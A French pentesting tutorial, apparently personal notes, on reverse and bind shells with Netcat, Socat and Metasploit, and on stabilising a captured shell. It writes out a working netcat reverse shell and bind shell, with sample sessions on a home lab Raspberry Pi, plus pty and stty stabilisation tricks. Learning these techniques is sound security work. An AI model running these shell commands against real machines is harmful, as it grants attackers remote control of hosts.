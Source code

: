 
Un shell est une interface homme machine en ligne de commande.

## __Outils__

Pour mettre en place des reverses shells, on a une mutltitude d'outils disponible.

### Netcat

**Netcat** peut être utilisé pour effectuer beaucoup de choses comme du **banner grabbing** pendant des énumérations. Mais l'usage principale qu'on va en faire est de **pouvoir recevoir une connection** depuis un port.

### Socat

**[Socat](Socat)** peut faire **tous ce que Netcat peut faire** mais aussi **beaucoup d'autres choses**. Les shells socat sont **plus stable** que les shells Netcat.

Les 2 problèmes de socat comparé à Netcat sont :
- La syntaxe est **plus difficile**
- Netcat est installé sur pratiquement toutes les distributions Linux par défaut. Socat est **très rarement installé** par défaut.

### Metasploit multi/handler

C'est le module **`exploit/multi/handler`** de metasploit, il a les **mêmes fonctionnalités** que Netcat ou Socat mais c'est le seul moyen d'intéragir avec un **shell meterpreter** et de gérer des **payloads metasploit**.

### Msfvenom

**[Msfvenom](Metasploit_Msfvenom)** fait aussi partie de msf - metasploit framework, mais c'est un **outil indépendant**. Il est utilisé pour créer des payloads et **aussi des reverses shell**.

### Autres

On peut **[créer des reverses shell pour des langages de programation en particulier ou pour un os particulier](Reverse_shell##__Scripts__)**.


## __Types de shell__

### Reverse shell

Un **reverse shell** est ce qui se produit quand une cible **éxécute un code qui connecte un shell à notre machine** (`/bin/bash` sur linux et `cmd.exe` sur windows). L'avantage d'un reverse shell est qu'on **contourne les règles des firewalls**, cependant le problème est qu'on est obligé de notre coté de **configurer notre réseau pour accepter ce shell**.

Notre machine

```shell
user@ip:~$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```
**Mise en place du listener**.

Machine cible

```shell
root@raspberrypi:/# ncat 192.168.1.100 443 -e /bin/bash
```
**Execution du script**.

Notre machine

```shell
Connection received on 192.168.1.104 47512
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos
```
**Execution de commande sur la machine cible**.

### Bind shell

Un **blind shell** est ce qui se produit quand une cible va **démarrer un listener** attaché à un shell. Ce **port** est alors **ouvert** et on peut s'y connecter et obtenir l'execution du shell. L'avantage est qu'**on a aucune configuration à faire sur notre réseau** mais il peut être **empeché par des firewalls**.

Machine cible

```shell
root@raspberrypi:/home/thomas# ncat -vnlp 4433 -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.1.100.
Ncat: Connection from 192.168.1.100:57085.
```
**Lancement du serveur netcat**.

Notre machine

```shell
user@ip:~$ nc 192.168.1.104 4433
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos

```
**Connection au port**.

### Interactive shell

Un **shell interactif** est un shell ou une **action utilisateur est requise**. 

![[shell-interactif.png]]

Ici, on peut utiliser la commande **ssh** car **on peut répondre à l'interaction**.

### Non Interactive shell

Un **shell non interactif** n'offre **pas** le luxe des shells *interactif*.

![[shell-non-interactif.png]]

On peut utiliser la commande **whoami** car elle **n'est pas interactive** mais **pas la commande ssh**.


## __Stabilisation__

Lorsque l'on a un shell sur une machine, **plusieurs problèmes** s'expose :

- On ne peut **pas utiliser les flèches**.
- On ne peut **pas utiliser la tabulations**.
- Un simple **CTRL + C tue tout notre shell**.

Pour palier ces problèmes on doit le stabiliser.

### Python

Comme python est installé dans la plupart des machines on peut l'utiliser pour stabiliser notre shell.

#### 1- Embélissement

Une fois dans notre shell la première commande à executer est **`python -c 'import pty;pty.spawn("/bin/bash")'`**.
Cela rendra notre shell **plus beau** mais les touches comme les flèches et les tabulations ne nous serront toujours pas accessible, tout comme le problème du CTRL + C.

```shell
user@ip:~$ nc 192.168.1.104 4433
whoami
root

python -c 'import pty;pty.spawn("/bin/bash")'
root@raspberrypi:/home/user#
```

#### 2- Commande de terme

Pour acceder aux **commandes de termes** comme `clear`, on doit executer la commande **`export TERM=xterm`**.

```shell
root@raspberrypi:/home/user# export TERM=xterm
export TERM=xterm
```

#### 3- Acces aux touches

Pour retirer les problèmes principaux, on va d'abord mettre notre **shell en arrière plan** en utilisant ***CTRL + Z***.
**Une fois dans notre terminal** on va executer la commande **`stty raw -echo; fg`** qui va **désactiver notre propre echo** et donc **donner accès aux touches et à l'auto-completion** puis remettre en premier plan notre shell.

```shell
root@raspberrypi:/home/user# ^Z
[1]+  Stopped                 nc 192.168.1.104 4433
user@ip:~$ stty raw -echo; fg
nc 192.168.1.104 4433

root@raspberrypi:/home/user# ^C
root@raspberrypi:/home/user#
```


### Taille du terminal

Pour **regler la taille du terminal** on va utiliser **`stty`**.

D'abord il faut **connaitre la taille de notre vrai terminal**. Pour cela il faut **ouvrir un autre terminal** et effectuer la commande **`stty -a`**.

```shell
claquetteuuuh@DESKTOP-PC1BC1G:~$ stty -a
speed 38400 baud; rows 30; columns 120; line = 0;
```

On peut ici voir les attributs **rows** et **columns**.

On va ensuite régler notre shell avec ces attributs. Pour cela on va executer dans notre reverse shell les commandes
**`stty rows <number>`** et **`stty cols <number>`**

```shell
root@raspberrypi:/home/user# stty rows 30
root@raspberrypi:/home/user# stty columns 120
root@raspberrypi:/home/user# jjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjj
```

